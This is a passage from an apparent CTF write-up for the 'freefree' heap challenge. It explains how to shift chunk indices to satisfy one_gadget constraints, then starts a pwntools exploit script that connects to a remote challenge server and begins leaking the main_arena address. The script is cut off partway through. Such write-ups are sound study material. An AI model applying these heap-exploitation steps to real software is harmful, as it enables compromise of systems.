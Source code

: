 Just 6 pop, if we increase the index of chunk a bit, we can get r12 and r15 null easily. So we will add a variable called `n` plus with all index to increase the index, this is more effective way than changing index one by one, it can make you confused.

For example, with the `gets(3, payload)` at the end, we will change it to `gets(3+n, payload)` and with n can be changed. I will choose `n=10` and new index will be 10, 11, 12, 13 and 14. That’s the perfect index and we now get the shell.

Full code:

```python
import subprocess
import time
import string
from pwn import *

libc = ELF('./libc-2.31.so', checksec=False)
context.binary = exe = ELF('./freefree', checksec=False)
# context.log_level = 'debug'
libc.sym['one_gadget'] = 0xe6aee
libc.sym['main_arena'] = 0x1ec1e0

def getchar(index):
	return string.ascii_uppercase[index]

def malloc(index, num):
	p.sendlineafter(b'> ', '{}=malloc({})'.format(getchar(index), num).encode())

def gets(index, data):
	p.sendlineafter(b'> ', 'gets({})'.format(getchar(index)).encode())
	time.sleep(0.1)
	p.sendline(data)

def puts(index):
	p.sendlineafter(b'> ', 'puts({})'.format(getchar(index)).encode())
	# Receive data outside

def GDB():
	command='''
	b*main+98
	b*main+215
	b*main+226
	b*main+316
	c
	'''
	# b*sysmalloc
	with open('/tmp/command.gdb', 'wt') as f:
	        f.write(command)
	subprocess.Popen(['/usr/bin/x-terminal-emulator', '-e', 'gdb', '-p', str(p.pid), '-x', '/tmp/command.gdb'])
	input()         # input() to make program wait with gdb

# p = process('./freefree_patched')
p = connect('34.136.108.210', 40007)
n = 10

########################################
### Stage 1: Leak main arena address ###
########################################
log.info('Stage 1: Leak main arena address...')
# Malloc to control all next chunks
malloc(0+n, 0x10)

# Change top chunk size
payload = b'\x00'*0x10    # chunk data
```